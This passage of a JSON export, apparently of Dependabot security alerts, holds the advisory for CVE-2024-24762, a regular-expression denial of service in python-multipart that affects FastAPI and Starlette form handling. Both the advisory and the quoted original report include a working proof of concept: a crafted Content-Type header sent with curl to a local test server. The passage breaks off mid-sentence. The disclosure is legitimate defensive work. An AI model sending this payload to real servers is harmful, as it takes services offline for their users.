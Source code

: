 ```
smissed_by":null,"dismissed_reason":null,"dismissed_comment":null,"fixed_at":null,"auto_dismissed_at":null},{"number":1,"state":"open","dependency":{"package":{"ecosystem":"pip","name":"python-multipart"},"manifest_path":"requirements.txt","scope":"runtime","relationship":"unknown"},"security_advisory":{"ghsa_id":"GHSA-2jv5-9r88-3w3p","cve_id":"CVE-2024-24762","summary":"python-multipart vulnerable to Content-Type Header ReDoS","description":"### Summary\n\nWhen using form data, `python-multipart` uses a Regular Expression to parse the HTTP `Content-Type` header, including options.\n\nAn attacker could send a custom-made `Content-Type` option that is very difficult for the RegEx to process, consuming CPU resources and stalling indefinitely (minutes or more) while holding the main event loop. This means that process can't handle any more requests.\n\nThis can create a ReDoS (Regular expression Denial of Service): https://owasp.org/www-community/attacks/Regular_expression_Denial_of_Service_-_ReDoS\n\nThis only applies when the app uses form data, parsed with `python-multipart`.\n\n### Details\n\nA regular HTTP `Content-Type` header could look like:\n\n```\nContent-Type: text/html; charset=utf-8\n```\n\n`python-multipart` parses the option with this RegEx: https://github.com/andrew-d/python-multipart/blob/d3d16dae4b061c34fe9d3c9081d9800c49fc1f7a/multipart/multipart.py#L72-L74\n\nA custom option could be made and sent to the server to break it with:\n\n```\nContent-Type: application/x-www-form-urlencoded; !=\\\"\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\n```\n\n### PoC\n\nCreate a simple WSGI application, that just parses the `Content-Type`, and run it with `python main.py`:\n\n```Python\n# main.py\nfrom wsgiref.simple_server import make_server\nfrom wsgiref.validate import validator\n\nfrom multipart.multipart import parse_options_header\n\n\ndef simple_app(environ, start_response):\n    _, _ = parse_options_header(environ[\"CONTENT_TYPE\"])\n\n    start_response(\"200 OK\", [(\"Content-type\", \"text/plain\")])\n    return [b\"Ok\"]\n\n\nhttpd = make_server(\"\", 8123, validator(simple_app))\nprint(\"Serving on port 8123...\")\nhttpd.serve_forever()\n```\n\nThen send the attacking request with:\n\n```console\n$ curl -v -X 'POST' -H $'Content-Type: application/x-www-form-urlencoded; !=\\\"\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\' --data-binary 'input=1' 'http://localhost:8123/'\n```\n\n### Impact\n\nThis is a ReDoS, (Regular expression Denial of Service), so it only applies to those using python-multipart to read form data, such as Starlette and FastAPI.\n\n### Original Report\n\nThis was originally reported to FastAPI as an email to security@tiangolo.com, sent via https://huntr.com/, the original reporter is Marcello, https://github.com/byt3bl33d3r\n\n<details>\n<summary>Original report to FastAPI</summary>\n\nHey Tiangolo!\n\nMy name's Marcello and I work on the ProtectAI/Huntr Threat Research team, a few months ago we got a report (from @nicecatch2000) of a ReDoS affecting another very popular Python web framework. After some internal research, I found that FastAPI is vulnerable to the same ReDoS under certain conditions (only when it parses Form data not JSON).\n\nHere are the details: I'm using the latest version of FastAPI (0.109.0) and the following code:\n\n```Python\nfrom typing import Annotated\nfrom fastapi.responses import HTMLResponse\nfrom fastapi import FastAPI,Form\nfrom pydantic import BaseModel\n\nclass Item(BaseModel):\n    username: str\n\napp = FastAPI()\n\n@app.get(\"/\", response_class=HTMLResponse)\nasync def index():\n    return HTMLResponse(\"Test\", status_code=200)\n\n@app.post(\"/submit/\")\nasync def submit(username: Annotated[str, Form()]):\n    return {\"username\": username}\n\n@app.post(\"/submit_json/\")\nasync def submit_json(item: Item):\n    return {\"username\": item.username}\n```\n\nI'm running the above with uvicorn with the following command:\n\n```console\nuvicorn server:app\n```\n\nThen run the following cUrl command:\n\n```\ncurl -v -X 'POST' -H $'Content-Type: application/x-www-form-urlencoded; !=\\\"\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\' --data-binary 'input=1' 'http://localhost:8000/submit/'\n```\n\nYou'll see the server locks up, is unable to serve anymore requests and one CPU core is pegged to 100%\n\nYou can even start uvicorn with multiple workers with the --workers 4 argument and as long as you send (workers + 1) requests you'll completely DoS the FastApi server.\n\nIf you try submitting Json to the /submit_json endpoint with the malicious Content-Type header you'll see it isn't vulnerable. So this only affects Fas
```